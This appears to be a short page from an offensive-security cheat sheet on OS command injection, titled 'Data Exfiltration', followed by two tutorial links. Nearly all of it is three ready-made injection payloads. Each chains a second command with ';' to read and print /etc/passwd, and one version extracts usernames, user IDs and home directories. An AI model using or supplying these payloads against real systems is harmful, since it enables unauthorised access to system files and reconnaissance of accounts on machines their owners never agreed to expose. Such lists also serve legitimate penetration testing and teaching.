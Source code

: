 # 03 - Data Exfiltration

`; while read line; do echo $line; done < /etc/passwd`

`; while IFS= read -r line;do echo "$line"; done < /etc/passwd`

`; while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd`

## References

- [Hacking Articles: Comprehensive Guide on OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/)

- [YeahHub: Command Injection Meterpreter Shell Detailed Tutorial 2018](https://www.yeahhub.com/command-injection-meterpreter-shell-detailed-tutorial-2018/)
